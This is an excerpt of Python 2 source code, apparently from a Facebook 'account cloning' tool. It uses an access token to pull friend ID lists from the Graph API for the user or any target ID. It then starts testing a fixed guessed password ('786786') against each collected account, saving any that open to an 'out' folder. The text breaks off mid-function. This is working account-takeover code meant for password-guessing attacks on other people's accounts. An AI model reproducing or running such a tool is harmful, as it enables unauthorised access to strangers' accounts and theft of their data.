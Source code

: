 	print "\033[1;97m--\033[1;91m> \033[1;91m0.\033[1;91mBack"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;97mChoose an Option>>> \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "\033[1;97m«--------------------\033[1;92m✧\033[1;97m--------------------»"
		jalan('\033[1;93mGetting IDs \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		idt = raw_input("\033[1;96m[+] \033[1;93mEnter ID\033[1;93m: \033[1;97m")
		print "\033[1;97m«✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿\033[1;92m✧\033[1;97m✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿»"
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;93mName\033[1;93m:\033[1;97m "+op["name"]
		except KeyError:
			print"\x1b[1;91mID Not Found!"
			raw_input("\n\033[1;96m[\033[1;97mBack\033[1;96m]")
			super()
		print"\033[1;93mGetting IDs\033[1;93m..."
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;93mTotal IDs\033[1;93m: \033[1;97m"+str(len(id))
	jalan('\033[1;93mPlease Wait\033[1;93m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;93mCloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;97m«✿✿✿✿\x1b[1;91m【To Stop Process Press CTRL+Z】\033[1;97m✿✿✿✿»"
	print "\033[1;97m«✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿\033[1;92m✧\033[1;97m✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿»"
	jalan(' \033[1;93mPlz Wait Cloned Accounts Will Appear Here')
	print "\033[1;97m«✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿\033[1;92m✧\033[1;97m✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿✿»"
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:Omi_Ch
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('786786')